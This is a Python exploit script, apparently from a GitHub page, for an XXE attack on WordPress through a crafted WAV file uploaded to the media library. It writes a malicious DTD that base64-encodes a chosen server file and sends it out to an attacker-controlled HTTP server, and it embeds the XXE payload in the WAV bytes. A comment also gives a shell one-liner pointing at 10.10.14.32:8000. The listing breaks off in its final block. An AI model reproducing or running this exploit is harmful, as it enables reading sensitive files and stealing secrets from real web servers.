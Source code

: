 ```py
def init_files(get_this, ip, server_port):
    dtd = f"""<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={get_this}">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://{ip}:{server_port}/?p=%file;'>" >"""
    fn1 = 'EXPLOIT.dtd'
    with open(fn1, 'w') as f:
        f.write(dtd)
        print(f'[+] File {fn1} written successfully.')

    fn2 = 'payload.wav'
    if not path.isfile(fn2):

        # Create "payload.wav" manually. If generated file payload file not work.
        """
        echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.32:8000/EXPLOIT.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
        """
        
        WAV_BYTES = b"\x52\x49\x46\x46\xb8\x00\x00\x00\x57\x41\x56\x45\x69\x58\x4d\x4c\x7b\x00\x00\x00\x3c\x3f\x78\x6d\x6c\x20"
        WAV_BYTES += b"\x76\x65\x72\x73\x69\x6f\x6e\x3d\x22\x31\x2e\x30\x22\x3f\x3e\x3c\x21\x44\x4f\x43\x54\x59\x50\x45\x20\x41"
        WAV_BYTES += b"\x4e\x59\x5b\x3c\x21\x45\x4e\x54\x49\x54\x59\x20\x25\x20\x72\x65\x6d\x6f\x74\x65\x20\x53\x59\x53\x54\x45"
        WAV_BYTES += bytes(f"\x4d\x20\x27\x68\x74\x74\x70\x3a\x2f\x2f{ip}\x3a{server_port}\x2f", encoding='latin1')
        WAV_BYTES += b"\x45\x58\x50\x4c\x4f\x49\x54\x2e\x64\x74\x64\x27\x3e\x25\x72\x65\x6d\x6f\x74\x65\x3b\x25\x69\x6e\x69\x74"
        WAV_BYTES += b"\x3b\x25\x74\x72\x69\x63\x6b\x3b\x5d\x3e\x00"

        with open(fn2, 'wb') as f:
            f.write(WAV_BYTES)

    return fn1, fn2


if __name__ == '__main__':

    srv_port = 8000
    dtd_fn = ""

    try:
        filepath = argv[1]
    except IndexError as e:
        exit("Usage: script.py [FILEPATH]")

    try:
        dtd_fn, payload_fn = init_files(get_this=filepath, ip=lhost, server_port=srv_port)

        # start the HTTP server in a separate thread
        server_thread = threading.Thread(target=run_http_server, args=(srv_port,))
        server_thread.daemon = True
        server_thread.start()

        # upload the image to WordPress
        success = wp_media_library_upload(url=rhost, username=username, password=password, filename=payload_fn)

    except KeyboardInterrupt as e:
        print(e)
    except Exception as e:
        print(e)
    finally:
```